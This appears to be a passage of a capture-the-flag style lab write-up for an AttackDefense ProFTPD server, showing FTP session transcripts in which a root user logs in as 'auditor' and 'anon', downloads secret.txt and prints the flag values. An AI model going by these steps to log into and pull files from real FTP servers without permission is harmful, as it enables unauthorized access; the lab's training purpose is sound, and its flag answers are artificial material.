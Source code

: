 ```bash
ftp> exit
221 Goodbye.
root@attackdefense:~# cat secret.txt 
d6a6bc0db10694a2d90e3a69648f3a03
```



```bash
root@attackdefense:~# ftp 192.184.96.3 
Connected to 192.184.96.3.
220 ProFTPD 1.3.5a Server (AttackDefense-FTP) [::ffff:192.184.96.3]
Name (192.184.96.3:root): auditor 
331 Password required for auditor
Password:
230 User auditor logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls 
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 0        0              33 Nov 20  2018 secret.txt
226 Transfer complete
ftp> get secret.txt 
local: secret.txt remote: secret.txt
200 PORT command successful
150 Opening BINARY mode data connection for secret.txt (33 bytes)
226 Transfer complete
33 bytes received in 0.00 secs (64.7120 kB/s)
ftp> exit
221 Goodbye.
root@attackdefense:~# cat secret.txt 
098f6bcd4621d373cade4e832627b4f6
```



```bash
root@attackdefense:~# ftp 192.184.96.3 
Connected to 192.184.96.3.
220 ProFTPD 1.3.5a Server (AttackDefense-FTP) [::ffff:192.184.96.3]
Name (192.184.96.3:root): anon
331 Password required for anon
Password:
230 User anon logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 0        0              33 Nov 20  2018 secret.txt
226 Transfer complete
ftp> get secret.txt 
local: secret.txt remote: secret.txt
200 PORT command successful
150 Opening BINARY mode data connection for secret.txt (33 bytes)
226 Transfer complete
33 bytes received in 0.00 secs (72.7462 kB/s)
ftp> exit
221 Goodbye.
root@attackdefense:~# cat secret.txt 
1bc29b36f623ba82aaf6724fd3b16718
```
